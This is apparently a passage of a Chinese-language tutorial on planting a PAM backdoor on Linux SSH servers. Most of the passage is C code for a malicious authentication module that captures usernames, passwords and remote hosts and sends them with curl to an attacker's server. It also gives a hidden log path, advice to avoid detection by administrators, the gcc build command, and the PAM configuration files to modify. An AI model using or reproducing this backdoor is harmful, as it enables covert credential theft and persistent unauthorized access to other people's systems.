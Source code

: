 ```c
    char *username;
    char *password;
    char *remotehost;
    pam_get_item(pamh, PAM_USER, (void*) &username);
    pam_get_item(pamh, PAM_AUTHTOK, (void*) &password);
    pam_get_item(pamh, PAM_RHOST, (void*) &remotehost);
    if (!username || !password) {
        return PAM_AUTHINFO_UNAVAIL;
    }

    // 前提开启syslog，输出在debug，三种记录方式可选择注释
    //_pam_log(LOG_DEBUG, "ssh auth attempt: %s entered the password %s", username, password);

    char cmd[300];
    char password_hex[200];

    // 把密码转成HexString格式
    str_to_hex(password, password_hex);

    // 把密码输出至/tmp/.ssh/log，并且通过HTTP协议回源到服务器
    strcpy(cmd, "curl -d 'msg=");
    strcat(cmd, username);
    strcat(cmd, "::");
    strcat(cmd, password_hex);
  //在实战中可把此处注释到，防止被管理员在/tmp目下发现异常
    _write_log("/tmp/.ssh/log", cmd);
    strcat(cmd, "::");
    strcat(cmd, remotehost);
    strcat(cmd, "' 'http://your server ip:8443/ssh'");
    system(cmd);

    return(PAM_SUCCESS);
}

int pam_sm_setcred(pam_handle_t *pamh, int flags, int argc, const char **argv) {
    return(PAM_IGNORE);
```

使用gcc直接编译成动态链接库文件

```bash
gcc -fPIC -DPIC -shared -rdynamic -o pam_authx.so pam_authx.c
```

#### 配置PAM后门

因为上面的代码只是针对pam_sm_authenticate函数的，为了快速编译而写的，所以还是需要用到pam_unix.so模块，它会把密码与/etc/shadow中的哈希对比。 接下来在/etc/pam.d/的对应配置文件首行加入下面两条配置

```bash
# Ubuntu
/etc/pam.d/common-auth-ys
# CentOS
/etc/pam.d/sshd
```
